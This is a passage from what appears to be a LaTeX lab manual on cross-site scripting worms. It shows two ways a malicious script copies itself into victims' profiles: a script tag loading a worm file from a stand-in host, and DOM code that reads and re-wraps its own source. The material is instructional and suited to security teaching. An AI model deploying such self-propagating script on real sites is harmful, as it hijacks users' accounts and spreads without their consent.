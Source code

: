 To achieve self-propagation, when the malicious JavaScript modifies the victim's profile,
it should copy itself to the victim's profile. There are several 
approaches to achieve this, and we will discuss two common approaches.

\paragraph{Link Approach:} If the worm is included using the {\tt src} attribute in the {\tt <script>} tag,
writing self-propagating worms is much easier. 
We have discussed the {\tt src} attribute in Task 1, and an example
is given below. The worm can simply copy the following
{\tt <script>} tag to the victim's profile, essentially
infecting the profile with the same worm.

\begin{lstlisting}
<script type="text/javascript" src="http://example.com/xss_worm.js">
</script>
\end{lstlisting} 

\paragraph{DOM Approach:} If the entire JavaScript program (i.e., the worm) is 
    embedded in the infected profile, 
    to propagate the worm to another profile, the worm code can use
    DOM APIs to retrieve a copy of itself from the web page.
    An example of using DOM APIs is given below. This code
    gets a copy of itself, and displays it in an alert window:

{\footnotesize
\begin{lstlisting}
<script id="worm">
   var headerTag = "<script id=\"worm\" type=\"text/javascript\">"; (*@ \ding{192} @*)
   var jsCode = document.getElementById("worm").innerHTML;          (*@ \ding{193} @*)
   var tailTag = "</" + "script>";                                  (*@ \ding{194} @*)
   
   var wormCode = encodeURIComponent(headerTag + jsCode + tailTag); (*@ \ding{195} @*)
      
   alert(jsCode);
</script>
\end{lstlisting}
}


It should be noted that {\tt innerHTML} (line ) only gives us the inside part of the
code, not including the surrounding {\tt script} tags. We just need to add the beginning tag
{\tt <script id="worm">} (line ) and the ending tag {\tt </script>} (line )
to form an identical copy of the malicious code.

